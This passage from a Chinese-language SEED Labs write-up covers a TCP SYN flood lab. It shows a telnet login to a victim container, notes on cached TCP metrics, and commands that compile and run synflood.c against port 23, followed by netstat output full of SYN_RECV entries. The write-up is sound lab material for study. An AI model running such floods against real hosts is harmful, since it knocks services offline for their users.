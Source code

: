 我们 telnet `10.9.0.5`：

```shell
user1-10.9.0.6$ telnet 10.9.0.5
Trying 10.9.0.5...
Connected to 10.9.0.5.
Escape character is '^]'.
Ubuntu 20.04.1 LTS
791656960e97 login: seed
Password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Aug 29 06:36:20 UTC 2022 from user1-10.9.0.6.net-10.9.0.0 on pts/2
```

只稍微等了一下下，就连接上了。而我们之后再次连接，都是瞬间连接上。

第一次是因为，python 程序跑得不够快，其它用户总有机会抢过它。而之后能立即连接是因为，受害者主机记住了原来的连接。

## Task 1.2: Launch the Attack Using C

我们首先清空一下：

```shell
victim-10.9.0.5$ ip tcp_metrics flush
```

在宿主机编译：

```shell
$ gcc -o synflood synflood.c
$ chmod a+x synflood
```

然后运行：

```shell
attacker-10.9.0.1$ synflood 10.9.0.5 23
```

查看当前 tcp 连接：

```shell
victim-10.9.0.5$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.11:41019        0.0.0.0:*               LISTEN     
tcp        0      0 10.9.0.5:23             111.55.219.82:27483     SYN_RECV   
tcp        0      0 10.9.0.5:23             249.195.34.103:34881    SYN_RECV   
tcp        0      0 10.9.0.5:23             148.11.56.119:17200     SYN_RECV   
......
victim-10.9.0.5$ netstat -tna | grep SYN_RECV | wc -l
97
victim-10.9.0.5$ ss -n state syn-recv sport = :23 | wc -l
98
```
